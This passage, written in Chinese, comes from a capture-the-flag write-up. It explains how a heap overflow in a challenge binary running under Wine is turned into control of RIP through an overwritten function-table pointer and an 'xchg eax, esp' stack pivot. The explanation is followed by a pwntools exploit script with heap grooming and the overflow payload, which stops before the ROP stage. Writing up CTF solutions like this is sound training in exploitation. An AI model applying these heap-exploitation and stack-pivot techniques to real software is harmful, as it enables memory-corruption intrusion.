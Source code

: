 接下來就是想辦法透過 heap overflow 控制到 RIP，而在測試 overflow 時能發現會一直斷在某個 mov 的 instruction，並且 register 的內容可控，猜測這個部分是 Windows heap 在更新 chunk linked list 時的操作，如果能找到 heap 上的 function table 或 pointer，搭配位址固定的 address，就可能可以控制到 RIP，但是在寫入時會發現兩個位址都需要可寫，因此只能控制 function table address。

- 在 `0x7bc57bdf` 會呼叫 `[[0x7bc7d048] + 0x50]`  指向的記憶體
- 配合 gadget `xchg eax, esp` ，能把 stack 遷到 victim，也就是 overflow 發生的 object



以下腳本做到 stack pivoting，剩下就是做 ROP：

```python
#!/usr/bin/python3

from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

r = process(['./wine64', '../chal.exe'])

def alloc(size):
    r.sendlineafter("choice?", "1")
    r.sendlineafter("size?", str(size))

def drop(idx):
    r.sendlineafter("choice?", "2")
    r.sendlineafter("index?", str(idx))

def read(idx):
    r.sendlineafter("choice?", "3")
    r.sendlineafter("index?", str(idx))

def write(idx, data):
    r.sendlineafter("choice?", "4")
    r.sendlineafter("index?", str(idx))
    r.sendlineafter("data?", data)

# input buffer: 0x1cb20
cnt = 0x100
num = 100
cmd = """
b *0x140001908
"""
for _ in range(num):
    alloc(cnt)
for i in range(1, num):
    drop(i)

rop_xchg_eax_esp_ret = 0x7b033572
victim = 0x16450
objptr = 0x7bc7d048

gdb.attach(r, cmd)
payload = '11' * 0x50 + p64(rop_xchg_eax_esp_ret).hex() + '11' * (cnt - 0x58 + 0x10)
payload += p64(victim).hex() # rdx
payload += p64(objptr).hex() # rax

write(0, payload)
r.interactive()
```
